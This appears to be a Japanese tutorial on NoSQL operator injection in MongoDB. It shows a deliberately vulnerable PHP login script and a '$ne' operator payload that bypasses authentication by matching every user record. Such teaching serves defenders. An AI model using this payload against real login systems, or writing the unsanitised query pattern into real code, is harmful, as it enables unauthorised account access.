 オペレーターインジェクション
- クエリから脱出できなくても、NoSQLの演算子を注入することでクエリの挙動を操作する
- たとえば認証バイパスなどの攻撃が可能になる

# オペレーターインジェクション
## ログインバイパス
- SQLインジェクションのように単なる文字列結合でクエリが作られるわけではなく、NoSQLではネストされた連想配列が使われる
ログインページの例

- WebアプリケーションはMongoDBに対し、myapp データベースの login コレクションに、フィルター `['username'=>$user, 'password'=>$pass]` を使ってクエリを投げる
- ここで $user と $pass はHTTPのPOSTパラメータから直接取得されている
```sh
<?php
$con = new MongoDB\Driver\Manager("mongodb://localhost:27017");


if(isset($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
        $user = $_POST['user'];
        $pass = $_POST['pass'];

        $q = new MongoDB\Driver\Query(['username'=>$user, 'password'=>$pass]);
        $record = $con->executeQuery('myapp.login', $q );
        $record = iterator_to_array($record);

        if(sizeof($record)>0){
                $usr = $record[0];

                session_start();
                $_SESSION['loggedin'] = true;
                $_SESSION['uid'] = $usr->username;

                header('Location: /sekr3tPl4ce.php');
                die();
        }
}
header('Location: /?err=1');

?>
```

これを逆手に取って、次のような配列を $user と $pass に渡す例
```sh
$user = ['$ne'=>'xxxx']
$pass = ['$ne'=>'yyyy']
```

すると、こうなる
- これはつまり、「ユーザー名が ‘xxxx’ でなく、かつパスワードが ‘yyyy’ でないすべてのドキュメント」を返せという意味になる
	- 結果として、ログインコレクション内の全ドキュメントが返され、そのうち最初の1件に対してログインが成功したかのように扱われる
```sh
['username'=>['$ne'=>'xxxx'], 'password'=>['$ne'=>'yyyy']]
```
